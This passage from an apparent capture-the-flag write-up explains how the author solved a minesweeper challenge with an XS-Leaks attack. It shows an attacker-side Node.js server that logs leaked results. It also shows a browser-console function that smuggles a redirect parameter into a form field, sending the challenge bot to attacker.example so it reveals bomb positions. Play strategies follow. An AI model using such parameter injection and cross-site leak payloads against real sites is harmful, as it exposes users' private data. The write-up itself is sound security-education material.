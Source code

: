 ```js
});

app.get('/xsleaks/:tile', (req, res) => {
  const { tile } = req.params;
  res.render("xsleaks", { CHALL_HOST, CALLBACK_URL, tile });
});

app.post('/xsleaks-callback/:result', (req, res) => {
  const { result } = req.params;
  console.log(result);
  res.status(200);
  res.end();
});

app.listen(port, () => {
  console.log(`Listening on port ${port}`);
});
```

<details><summary>Mustache templates</summary></details>

This application allows us to redirect the bot to `https://attacker.example/entry/<tile>`,
triggering the XSLeaks exploit, which will (eventually) print out "safe" or "bomb".

Finally, since sending these requests manually would be tiring, we can declare a
JavaScript function in our browser's console that simply takes the index of the tile
we want to reveal and sends the appropriate request:

```js
const oracle = (tile) => fetch(`/checkboard`, {
  method: 'POST',
  body: new URLSearchParams({
    cloneid: `something&redirect=//attacker.example/entry/${tile}`,
  }),
});
```

Running `oracle(0)` should, within about 10 seconds, tell us whether the tile
on the top-left corner is a bomb, printing this information to to the terminal
running our Node.js application.

### Play Strategies

As you might recall, in order to get the flag we need to get 20 perfect games,
which would be easy to do using the oracle in combination with some automated
solver.
However, I was too lazy to implement one, so I ended up playing the 20 games by
hand, which took way too long, but was definitely faster than trying to
implement a solver for it.
Here are some strategies that I adopted:

- First, I made a drawing of the board with the tile numbers, which made it
  easier to use the oracle on the correct tile without having to count each time;
- Second, it is possible to restart the board whenever we want, by calling the
  `/newboard` GET endpoint, without it incurring a loss, which is useful for when
  there is a 50/50 and we are out of oracles (recall that we have 5 per game);
- Third, I always start with the top-left corner and restart the board if it is
  a bomb, maximising the number of available oracles throughout the game;
- Fourth, it is important to keep in mind the aforementioned peculiarities
  of the board generation function, which help on certain 50/50 situations.
